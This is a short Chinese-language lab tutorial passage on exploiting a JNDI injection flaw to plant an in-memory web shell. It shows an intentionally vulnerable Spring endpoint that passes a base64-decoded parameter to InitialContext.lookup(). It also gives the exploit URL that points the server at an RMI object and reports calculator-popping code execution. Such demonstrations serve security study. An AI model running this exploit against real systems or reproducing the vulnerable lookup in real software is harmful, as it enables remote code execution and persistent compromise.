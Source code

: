 ### 利用JNDI注入漏洞实现内存马注入

启动漏洞环境，代码如下

```plain
@GetMapping({"/jndi"})
    public void jndi(@RequestParam String b) throws Exception {
        byte[] decodedBytes  = Base64.getDecoder().decode(b);
        String decodedUrl = new String(decodedBytes , StandardCharsets.UTF_8);
        InitialContext ctx = new InitialContext();
        ctx.lookup(decodedUrl);
    }
```

访问URL完成攻击 （传过去的`jndi-url`是`rmi://localhost:11451/remoteObj`）

`http://localhost:8080/memShell/jndi?b=cm1pOi8vbG9jYWxob3N0OjExNDUxL3JlbW90ZU9iag==`

随便访问一个不存在的目录，成功弹出了计算器[![](assets/1701678277-d491c44f360f6ae00099c29332c9e9bb.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231130224600-2da4f024-8f8f-1.png)
